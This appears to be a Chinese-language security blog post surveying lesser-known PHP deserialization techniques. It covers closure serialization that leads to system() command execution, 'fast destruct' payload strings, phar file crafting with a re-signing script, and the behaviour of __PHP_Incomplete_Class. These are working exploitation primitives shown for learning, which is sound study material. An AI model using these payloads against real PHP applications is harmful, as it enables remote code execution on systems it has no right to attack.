 # PHP反序列化冷知识点总结

  
  
&lt;!--more--&gt;  
## Opi/Closure(闭包)函数  
`PHP`在5.3版本引入了`Closure`类用于代表匿名函数  
根据`PHP`官方文档，Closure 类定义如下  
```php  
&lt;?  
class Closure {  
    /* 方法 */  
    private __construct()  
    public static bind(Closure $closure, ?object $newThis, object|string|null $newScope = &#34;static&#34;): ?Closure  
    public bindTo(object $newthis, mixed $newscope = &#39;static&#39;): Closure  
    public call(object $newThis, mixed ...$args): mixed  
    public static fromCallable(callable $callback): Closure  
}  
?&gt;  
```  
但是`Closure`是不允许序列化和反序列化的，然而[Opi Closure](https://github.com/opis/closure)库实现了这一功能，通过`Opi Closure`，可以方便对闭包进行序列化和反序列化，只需要使用`Opis\Closure\serialize()`和`Opis\Closure\unserialize()`即可  
举个例子  
```php  
&lt;?php  
include(&#34;./vendor/opis/closure/autoload.php&#34;);  
class Test{  
    public $source;  
    public function __destruct(){  
        call_user_func($this-&gt;source,1);  
    }  
}  
$func = function(){  
    $cmd = &#39;whoami&#39;;  
    system($cmd);  
};  
$raw = \Opis\Closure\serialize($func);  
$t = new Test;  
$t-&gt;source = \Opis\Closure\unserialize($raw);  
$exp = serialize($t);  
unserialize($exp);  
  
//output f10wers13eicheng  
```  
## fast destruct  
- 在 PHP 中单独执行`unserialize`函数，则反序列化得到的生命周期仅限于这个函数执行的生命周期，在执行完`unserialize()`函数时就会执行`__destruct`方法  
- 而如果将`unserialize()`函数执行后得到的字符串赋值给一个变量，则反序列化的对象的生命周期就会变长，会一直到对象被销毁时才执行析构方法  
比如PHP中有如下代码  
```php  
&lt;?php  
class test{  
    public function __destruct(){  
        echo &#34;bypass&#34;;  
    }  
}  
$a = @unserialize(&#39;O:4:&#34;test&#34;:0:{}&#39;);  
throw new Exception(&#34;No No No&#34;);  
?&gt;  
  
//output  
-&gt; % php index.php   
PHP Fatal error:  Uncaught Exception: No No No in /Users/f10wers13eicheng/Desktop/webserver/index.php:8  
Stack trace:  
#0 {main}  
  thrown in /Users/f10wers13eicheng/Desktop/webserver/index.php on line 8  
  
Fatal error: Uncaught Exception: No No No in /Users/f10wers13eicheng/Desktop/webserver/index.php:8  
Stack trace:  
#0 {main}  
  thrown in /Users/f10wers13eicheng/Desktop/webserver/index.php on line 8  
```  
### 0x01  
但是如果我们破坏正常序列化的结构，就会提前执行`__destruct`  
```php  
//O:4:&#34;test&#34;:0:{  
//O:4:&#34;test&#34;:0:{1}  
//bypass  
```  
### 0x02  
利用`array`，众所周知`array`也是能被序列化/反序列化的，当反序列化时遇到`null`也会触发`fast destruct`，修改序列化后`array`的属性值即可  
```php  
&lt;?php  
error_reporting(0);  
class test01{  
    public function __destruct(){  
        echo &#34;test01&#34;.PHP_EOL;  
    }  
}  
//$o = serialize(array(new test01));  
//echo $o;  
$a = unserialize(&#39;a:2:{i:0;O:6:&#34;test01&#34;:0:{}i:1;i:0;}&#39;);  
throw new Exception(&#34;No No No&#34;);  
?&gt;  
```  
  
## phar反序列化  
生成phar文件  
```php  
$clazz = new Clazz();  
@unlink(&#34;test.phar&#34;);  
$p = new Phar(&#34;test.phar&#34;,0);  
$p-&gt;startBuffering();  
$p-&gt;setMetadata($clazz);  
$p-&gt;setStub(&#34;GIF89a__HALT_COMPILER();&#34;);  
$p-&gt;addFromString(&#34;text.txt&#34;,&#34;successful!&#34;);  
$p-&gt;stopBuffering();  
```  
重新计算 phar 文件的签名  
```python  
import hashlib  
  
f = open(&#34;test.phar&#34;, &#34;rb&#34;)  
data = f.read()  
f.close()  
length = int(data[47:51][::-1].hex(), 16)  
data = data[:51 &#43; length - 1] &#43; b&#34;1&#34; &#43; data[51 &#43; length:len(data) - 28]  
data &#43;= hashlib.sha1(data).digest()  
data &#43;= b&#34;\x02\x00\x00\x00GBMB&#34;  
f = open(&#34;test.phar&#34;, &#34;wb&#34;)  
f.write(data)  
f.close()  
```  
  
## stdClass和__PHP_Incomplete_Class  
`stdClass`是所有类的基类，可以代替`array`来反序列化两个类  
```php  
&lt;?php  
var_dump(unserialize(&#39;O:8:&#34;stdClass&#34;:2:{i:0;O:6:&#34;test01&#34;:0:{}i:1;O:6:&#34;test02&#34;:0:{}}&#39;))  
?&gt;  
  
//output  
object(stdClass)#1 (2) {  
  [&#34;0&#34;]=&gt;  
  object(__PHP_Incomplete_Class)#2 (1) {  
    [&#34;__PHP_Incomplete_Class_Name&#34;]=&gt;  
    string(6) &#34;test01&#34;  
  }  
  [&#34;1&#34;]=&gt;  
  object(__PHP_Incomplete_Class)#3 (1) {  
    [&#34;__PHP_Incomplete_Class_Name&#34;]=&gt;  
    string(6) &#34;test02&#34;  
  }  
}  
```  
 当反序列化一个没有类会出现`__PHP_Incomplete_Class`，并且其中会出现`__PHP_Incomplete_Class_Name`属性，值就是反序列化时没有的那个类，在序列化的时候便会恢复回去。  
如果我们将`__PHP_Incomplete_Class_Name`属性改成其他名字，便会在反序列化再序列化之后就会消失  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402152157526.png)
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%86%B7%E7%9F%A5%E8%AF%86%E7%82%B9%E6%80%BB%E7%BB%93/  

